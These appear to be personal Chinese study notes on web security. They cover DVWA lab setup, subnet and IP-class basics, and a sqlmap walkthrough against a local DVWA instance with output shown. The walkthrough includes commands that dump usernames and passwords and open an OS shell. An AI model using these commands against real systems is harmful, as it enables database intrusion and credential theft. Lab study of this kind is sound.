

# web安全学习笔记

## 环境搭建

> DVWA+UBUNTU
>
> 官方建议使用DVWA+XAMPP快速部署靶机
>
> 这里先进入[DVWA](http://www.dvwa.co.uk/)和[XAMPP](https://www.apachefriends.org/index.html)的官网进行下载
>
> XAMPP
>
> > apache mysql php一键部署
> >
> > 下载的run文件：sudo chmod 755 xxx.run
> >
> > 安装：sudo ./xxx.run
>
> DVWA
>
> > 解压出dvwa
> >
> > mv dvwa-master-> dvwa
> >
> > 然后sudo cp -R /opt/lampp/htdocs/dvwa
> >
> > cd /opt/lampp/htdocs/dvwa/config
> >
> > sudo cp config.inc.php.dist  config.inc.php
> >
> >  sudo vim config.inc.php
> >
> > 去掉数据库中的密码，并修改难度为low保存退出
>
> 打开[浏览器](http:127.0.0.1/dvwa/setup.pho)
>
> 点击最下面Create/Reset Database
>
> 账号密码admin/password
>
> 部署完成
>
> 局域网测试网址：http://192.168.123.191/dvwa/login.php

## web相关概念

> 网段：网段（network segment）一般指一个计算机网络中使用同一物理层设备（传输介质，中继器，集线器等）能够直接通讯的那一部分。
>
> 网桥：网桥实现两个网段的桥接功能，交换机原理上也工作在数据链路层，可实现多个网段的信息交换，网桥和交换机可以隔离两个网段，可以防止在某一个网段的数据被无条件地广播到另一网段，这是因为网桥接到数据帧后，判断接收到的数据帧目的地址是否和源地址在同一网段，是的话，就不再转发。交换机被称为多端口网桥，交换机的每个端口可以连接一个网段。
>
> 例如IP为 192.168.0.1 ~ 192.168.0.254 的设备就位于掩码 255.255.255.0 的同一**子网**中，这句话经常被说成“位于192.168.0.x ‘网段’中”，如果不涉及[网络层](https://baike.baidu.com/item/网络层)之下的结构，这么说不会引起混淆，但是在深入探讨互联网底层结构的时候，应该避免使用“网段”来指代“子网”。
>
> 简单来说：网段可以理解成 192.168.11.x-192.168.12.x中都可以称为一个网段。
>
> 而子网：192.168.11.1-192.168.11.254都可以称为在掩码 255.255.255.0 的同一**子网**中。
>
> ip地址：
>
> > 子网掩码：子网掩码是一个32位地址，是与IP地址结合使用的一种技术。它的主要作用有两个，一是用于**屏蔽IP地址的一部分以区别[网络标识](https://baike.baidu.com/item/网络标识)和[主机](https://baike.baidu.com/item/主机)标识，并说明该IP地址是在[局域网](https://baike.baidu.com/item/局域网)上，还是在远程网上。二是用于将一个大的IP网络划分为若干小的子网络。**
> >
> > **IP默认分配的子网掩码每段只有255或0**
> >
> > A类的默认[子网掩码](https://baike.baidu.com/item/子网掩码)　255.0.0.0　一个子网最多可以容纳1677万多台电脑
> >
> > B类的默认[子网掩码](https://baike.baidu.com/item/子网掩码)　255.255.0.0　一个子网最多可以容纳6万台电脑
> >
> > C类的默认[子网掩码](https://baike.baidu.com/item/子网掩码)　255.255.255.0　一个子网最多可以容纳254台电脑
> >
> > 要想在[同一网段](https://baike.baidu.com/item/同一网段)，只要[网络标识](https://baike.baidu.com/item/网络标识)相同就可以了，那要怎么看网络标识呢？首先要做的是把每段的IP转换为二进制。
> >
> > 把[子网掩码](https://baike.baidu.com/item/子网掩码)切换至二进制，我们会发现，所有的子网掩码是由一串连续的1和一串连续的0组成的（一共4段，每段8位，一共32位数）。
> >
> > 255.0.0.0　11111111.00000000.00000000.00000000
> >
> > 255.255.0.0　11111111.11111111.00000000.00000000
> >
> > 255.255.255.0　11111111.11111111.11111111.00000000
> >
> > ip网段：企业规模越来越大，从原来的十几台，到几十台，几百台。那么所需的[IP地址](https://baike.baidu.com/item/IP地址)数量也越来越多。我们都知道C类一个网段的IP地址数为0-255,除去0和255,只能有254台电脑，如果超过254台电脑，就需要增加IP地址，如何增加IP地址呢，为此就需要[子网掩码](https://baike.baidu.com/item/子网掩码)。
> >
> > IPv4的地址由四段数字组成（以后将扩充更改），常分为三类IP:
> >
> > A类IP地址：用8位（Bit）来标识网络号，24位标识主机号
> >
> > A类：0.0.0.0到127.255.255.255 
> >
> > b类[ip地址](https://baike.baidu.com/item/ip地址)：用16位来标识网络号，16位标识主机号
> >
> > B类：128.0.0.0到191.255.255.255
> >
> > C类IP地址：用24位来标识网络号，8位标识主机号
> >
> > C类：192.0.0.0到223.255.255.255
> >
> > [ip地址](https://baike.baidu.com/item/ip地址)是以网络号和[主机](https://baike.baidu.com/item/主机)号来标示网络上的主机的，只有在一个网络号下的计算机之间才能"直接"互通，不同网络号的计算机要通过[网关](https://baike.baidu.com/item/网关)（Gateway）才能互通。但这样的划分在某些情况下显得并十分不灵活。为此ip网络还允许划分成更小的网络，称为[子网](https://baike.baidu.com/item/子网)（[Subnet](https://baike.baidu.com/item/Subnet/1567215)），这样就产生了[子网掩码](https://baike.baidu.com/item/子网掩码)。子网掩码的作用就是用来判断任意两个IP地址是否属于同一子网络，这时只有在同一子网的计算机才能"直接"互通。
>
> ### sqlmap
>
> >sqlmap是一个开源渗透测试工具，它可以自动检测和利用SQL注入漏洞并接管数据库服务器的过程。它配备了强大的检测引擎，针对最终渗透测试仪的众多细分功能以及从数据库指纹识别，从数据库获取数据到访问基础文件系统以及通过外出在操作系统上执行命令的各种开关。
> >
> >**使用方法**
> >
> >> 查看是否存在sql注入
> >>
> >> sqlmap -u "url"
> >>
> >> 如果得到一个重定向，记得带上cookie
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --dbs
> >>
> >> >[17:08:43] [INFO] the back-end DBMS is MySQL
> >> >back-end DBMS: MySQL >= 5.0 (MariaDB fork)
> >> >[17:08:43] [INFO] fetching database names
> >> >available databases [6]:
> >> >[*] dvwa
> >> >[*] information_schema
> >> >[*] mysql
> >> >[*] performance_schema
> >> >[*] phpmyadmin
> >> >[*] test
> >> >
> >> >也可以进入.sqlmap/output/ip/的log下查看记录
> >>
> >> 查看当前应用程序使用的数据库
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --current-db
> >>
> >> > [17:13:17] [INFO] fetching current database
> >> > [17:13:17] [WARNING] reflective value(s) found and filtering out
> >> > current database: 'dvwa'
> >> > [17:13:17] [INFO] fetched data logged to text files under '/home/ayjin/.sqlmap/output/192.168.123.191'
> >>
> >> 查看数据库的所有表
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --tables -D "dvwa"
> >>
> >> > [17:19:07] [INFO] fetching tables for database: 'dvwa'
> >> > Database: dvwa
> >> > [2 tables]
> >> > +-----------+
> >> > | guestbook |
> >> > | users     |
> >> > +-----------+
> >>
> >> 读取指定某个表中的字段名称
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --columns -T "users" -D "dvwa"
> >>
> >> > [17:19:22] [INFO] fetching columns for table 'users' in database 'dvwa'
> >> > Database: dvwa
> >> > Table: users
> >> >
> >> > | Column | Type |
> >> > | ------ | ---- |
> >> > |        |      |
> >> > | password | varchar(32) |
> >> > | -------- | ----------- |
> >> > |          |             |
> >> > | user | varchar(15) |
> >> > | ---- | ----------- |
> >> > |      |             |
> >>
> >> 读取指定字段内容
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --dump -C "user,password" -T "users" -D "dvwa"
> >>
> >> > 
> >>
> >> 查看所有用户的权限
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --privileges
> >>
> >> 查看admin用户的权限
> >>
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --privileges -U admin
> >
> >执行shell命令
> >
> >> sqlmap -u "http://192.168.123.191/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low;PHPSESSID=2c65fcceccb581c27d392de4fa62cdf6" --os-shell="ls"
> >
> >

